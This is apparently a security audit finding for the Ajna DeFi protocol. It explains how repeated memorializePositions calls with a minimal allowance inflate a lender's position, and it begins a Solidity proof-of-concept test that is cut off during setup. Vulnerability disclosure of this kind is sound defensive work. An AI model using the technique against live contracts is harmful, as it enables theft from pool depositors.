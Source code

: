 The described vulnerability occurs when a lender specifies allowances for the PositionManager contract that are less than their lp balance for each respective index through the [increaseLPAllowance function](https://github.com/code-423n4/2023-05-ajna/blob/276942bc2f97488d07b887c8edceaaab7a5c3964/ajna-core/src/base/Pool.sol#L455) and then invokes the [memorializePositions function](https://github.com/code-423n4/2023-05-ajna/blob/276942bc2f97488d07b887c8edceaaab7a5c3964/ajna-core/src/PositionManager.sol#L170). The result of this is that the user's lp balance tracked by the [PositionManager's state](https://github.com/code-423n4/2023-05-ajna/blob/276942bc2f97488d07b887c8edceaaab7a5c3964/ajna-core/src/PositionManager.sol#L202) will increment by the position's balance while the lp balance tracked by the [Pool's state](https://github.com/code-423n4/2023-05-ajna/blob/276942bc2f97488d07b887c8edceaaab7a5c3964/ajna-core/src/libraries/external/LPActions.sol#L260) will only decrement by the specified allowance. A user can repeat this process through multiple iterations until their respective lp balances with the Pool contract are 0 which will exponentially increase the value of their position.    Please see the following test case for a POC simulating the effect of this described vulnerability on a user's position:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.14;

import "forge-std/console.sol";

import {Base64} from "@base64-sol/base64.sol";

import "tests/forge/unit/PositionManager.t.sol";

/**
 *  @title  Proof of Concept
 *  @notice Simulates the effect of the described vulnerability where a user
 *          can exponentially increase the value of their position by:
 *          1- only approving the `PositionManager` for a min amount of their position
 *          2- invoking 'memorializePositions' on their position's respective NFT
 *          3- repeating these steps until their respective position's Pool lp balance is 0
 *  @dev    This test case can be implemented and run from the ajna-core/tests/forge directory
 */
contract POC is PositionManagerERC20PoolHelperContract {
    function testMemorializePositionsWithMinApproval() external {
        uint256 intialLPBalance;
        uint256 finalLPBalance;

        address testsAddress = makeAddr("testsAddress");
        uint256 mintAmount = 10000 * 1e18;

        _mintQuoteAndApproveManagerTokens(testsAddress, mintAmount);

        // Call pool contract directly to add quote tokens
        uint256[] memory indexes = new uint256[](3);
        indexes[0] = 2550;
        indexes[1] = 2551;
        indexes[2] = 2552;

        _addInitialLiquidity({
            from: testsAddress,
            amount: 3_000 * 1e18,
            index: indexes[0]
        });
        _addInitialLiquidity({
            from: testsAddress,
            amount: 3_000 * 1e18,
            index: indexes[1]
        });
        _addInitialLiquidity({
            from: testsAddress,
            amount: 3_000 * 1e18,
            index: indexes[2]
```